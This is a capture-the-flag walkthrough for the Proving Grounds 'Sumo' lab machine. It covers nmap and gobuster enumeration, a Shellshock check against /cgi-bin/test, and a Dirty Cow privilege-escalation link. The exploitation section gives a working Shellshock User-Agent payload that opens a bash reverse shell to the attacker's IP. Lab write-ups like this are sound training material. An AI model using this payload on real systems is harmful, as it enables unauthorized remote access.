 ```yaml
---
layout: default
title: Sumo
parent: Proving Grounds Play
nav_order: 7
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/sumo]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.222.87
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 22:55 EDT
Nmap scan report for 192.168.222.87
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.23 seconds

```

# Enumeration

---

## 80 - HTTP

Gobuster returns _/cgi-bin_ directory.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ gobuster dir -u http://192.168.222.87 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 80 -f -x php,txt,html
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.222.87
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt,html
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/11/03 22:56:32 Starting gobuster in directory enumeration mode
===============================================================
/cgi-bin/             (Status: 403) [Size: 290]
/icons/               (Status: 403) [Size: 288]
/.html/               (Status: 403) [Size: 288]
/doc/                 (Status: 403) [Size: 286]

```

Rerun Gobuster against the _/cgi-bin_ directory and locate a _/test_ directory.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ gobuster dir -u http://192.168.222.87/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 80 -f -x php,txt,html
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.222.87/cgi-bin
[+] Method:                  GET
[+] Threads:                 80
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,txt,html
[+] Add Slash:               true
[+] Timeout:                 10s
===============================================================
2023/11/03 22:59:33 Starting gobuster in directory enumeration mode
===============================================================
/.html/               (Status: 403) [Size: 296]
/local.txt/           (Status: 500) [Size: 619]
/test/                (Status: 200) [Size: 14]

```

Run nmap script for shellshock against

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/sumo]
└─$ sudo nmap -p80 --script http-shellshock --script-args uri=/cgi-bin/test 192.168.222.87
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 23:01 EDT
Nmap scan report for 192.168.222.87
Host is up (0.054s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds
```

# Exploitation

---

## Shellshock

Intercept a GET request to /cgi-bin/test in Burp and send to Repeater

![burp1](../../../assets/images/ctfs/proving_grounds/sumo/burp1.png)

Add the bash reverse shell one-liner to the User-Agent header in the GET request.

```bash
User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.45.217/9001 0>&1
```

![burp2](../../../assets/images/ctfs/proving_grounds/sumo/burp2.png)

Get a reverse shell back in our netcat listener.

![shell](../../../assets/images/ctfs/proving_grounds/sumo/shell.png)

# Post-Exploitation

---

## Dirty Cow Kernel Exploit

[Dirty Cow kernel exploit](https://gist.github.com/KrE80r/42f8629577db95782d5e4f609f437a54)

![dirty](../../../assets/images/ctfs/proving_grounds/sumo/dirty.png)
